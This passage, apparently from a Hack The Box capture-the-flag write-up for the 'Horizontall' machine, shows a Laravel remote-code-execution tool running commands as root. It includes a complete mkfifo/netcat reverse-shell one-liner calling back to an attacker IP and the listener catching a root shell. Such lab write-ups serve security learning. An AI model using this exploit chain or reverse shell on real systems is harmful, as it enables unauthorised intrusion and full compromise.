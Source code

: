 ```
    execute <command>          -  Execute system command.
    write <text>               -  Write to log file.
    patch <env/index/private>  -  Patch the vulnerability.
    patches                    -  Detailed information about patch modes
[?] Please enter a command to execute: execute whoami
[@] Executing command "whoami"...
[@] Generating payload...
[√] Generated 1 payloads.
[@] Trying chain laravel/rce2 [1/1]...
[@] Clearing logs...
[@] Causing error in logs...
[√] Caused error in logs.
[@] Sending payloads...
[√] Sent payload.
[@] Converting payload...
[√] Converted payload.
[√] Result:

root
```

I can then use this to generate a reverse shell:
```
[?] Please enter a command to execute: execute rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.78 80 >/tmp/f
[@] Executing command "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.78 80 >/tmp/f"...
[@] Generating payload...
[√] Generated 1 payloads.
```

And catch a shell back as root:

```
┌──(ryan㉿kali)-[~/HTB/Horizontall]
└─$ nc -lnvp 80
listening on [any] 80 ...
connect to [10.10.14.78] from (UNKNOWN) [10.10.11.105] 46266
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# hostname
horizontall
```

Unfortuantely this exploit crashes pretty fast, so you'll either want to fully stabilize your shell, or grab that root flag quickly.
